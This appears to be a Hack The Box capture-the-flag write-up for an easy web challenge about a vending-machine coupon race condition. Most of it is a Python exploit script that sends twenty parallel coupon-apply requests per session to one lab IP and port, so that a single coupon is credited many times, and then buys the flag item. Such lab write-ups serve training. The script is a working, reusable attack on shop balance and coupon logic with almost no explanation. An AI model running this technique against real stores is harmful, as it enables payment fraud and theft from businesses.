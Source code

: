 ## **HTB** 
### **Difficult:** easy
### **Type:** Race condition
___
### **Description:**
Having missed the flight as you walk down the street, a wild vending machine appears in your way. You check your pocket and there it is, yet another half torn voucher coupon to feed to the consumerism. You start wondering why should you buy things that you don't like with the money you don't have for the people you don't like. You're Jack's raging bile duct.

Author: Rayhan0x01
___

### **Vulnerable code:** ###
![https://github.com/L4P1Nz/HackTheBox/blob/main/Challenges/Web/Diogenes%20Rage/Media/1.png](1.png)
### **Exploit:** ###
```python
import requests
from multiprocessing import Process

url = "http://167.172.55.94:31451"
purchase_endpoint = "/api/purchase"
coupon_endpoint = "/api/coupons/apply"

purchase_A1 = {"item": "A1"}
purchase_C8 = {"item": "C8"}
coupon_data = {"coupon_code": "HTB_100"}

def request_coupon(cookie):
    requests.post(url=url+coupon_endpoint, data=coupon_data, cookies=cookie)


while (1):
    response = requests.post(url=url+purchase_endpoint, data=purchase_A1)
    cookie = {
        "session": response.cookies['session']
    }
    processes = []
    for i in range(20):
        new_process = Process(target=request_coupon, args=(cookie, ))
        processes.append(new_process)
    
    for process in processes:
        process.start()
    for process in processes:
        process.join()
    
    response = requests.post(url=url+purchase_endpoint, data=purchase_A1, cookies=cookie)
    print("Show balance: ", response.text)

    response = requests.post(url=url+purchase_endpoint, data=purchase_C8, cookies=cookie)
    print("Flag? :", response.text)
```
